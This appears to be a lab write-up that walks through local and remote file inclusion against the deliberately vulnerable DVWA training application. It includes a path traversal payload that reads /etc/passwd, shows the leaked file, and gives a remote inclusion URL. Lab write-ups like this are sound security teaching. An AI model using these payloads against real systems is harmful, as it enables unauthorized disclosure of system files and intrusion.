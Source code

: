 # Local File Inclusion (Level = Low)

- Visit the URL of the DVWA. Add the following credentials admin/password.
- Change the security level of the DVWA to Low.
- Go to the local file inclusion activity area.

## Local File Inclusion (Activity 1)
"To include a file edit the ?page=index.php in the URL to determine which file is included."

> Web URL = http://DVWA_IP/vulnerabilities/fi/?page=include.php

Analyses of the web URL, shows that the web application is accessing include.php page which showed the message "To include a file edit the ?page=index.php in the URL to determine which file is included.".
This means that the page that we want to access is passed within the GET function.
For proving this, Go to "View Source" tab at the right bottom corner of the application to see the page source code and the functions of the PHP.
***
The next step in the exploitation is to change the page parameter in the web URL to see the behavior of the web page.
For this modify the URL by including any garbage value.

http://DVWA_IP/vulnerabilities/fi/?page=~~**iaassssdddff**~~

The web page showed some error messages after entering garbage value in the page parameter.

Warning: include(sssss) [function.include]: failed to open stream: No such file or directory in /opt/lampp/htdocs/vulnerabilities/fi/index.php on line 35

Warning: include() [function.include]: Failed opening 'sssss' for inclusion (include_path='.:/opt/lampp/lib/php:../../external/phpids/0.6/lib/') in /opt/lampp/htdocs/vulnerabilities/fi/index.php on line 35

From the error messages, it has been identified that the lookup directory for accessing the files is /opt/lampp/htdocs/vulnerabilities/fi/

That means the current working directory is the "fi" directory. Now try to perform path traversal to go to the root directory of the operating system.

URL = http://DVWA_IP/vulnerabilities/fi/?page=**../../../../../etc/passwd**

When this URL is sent to the web server, it returned the contents of the /etc/passwd file.

> root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh syslog:x:101:103::/home/syslog:/bin/false dvwa:x:1000:1000:dvwa,,,:/home/dvwa:/bin/bash sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin messagebus:x:103:110::/var/run/dbus:/bin/false usbmux:x:104:46:usbmux daemon,,,:/home/usbmux:/bin/false pulse:x:105:111:PulseAudio daemon,,,:/var/run/pulse:/bin/false rtkit:x:106:113:RealtimeKit,,,:/proc:/bin/false

This the example of local file inclusion where we perform path traversal techniques to include the file from local system in the URL parameters through the vulnerable web application.

We can also access other files within the filesystem such as /etc/hostname and files in other directories as well.

### Performing Remote File Inclusion
The remote file inclusion can also be performed by adding the URL of some other website such as https://google.com or some other server to access the file remotely.

URL = http://DVWA_IP/vulnerabilities/fi/?page=https://google.com

The URL will add Google's search bar within the DVWA web page, although the search bar isn't working but the page is accessed.














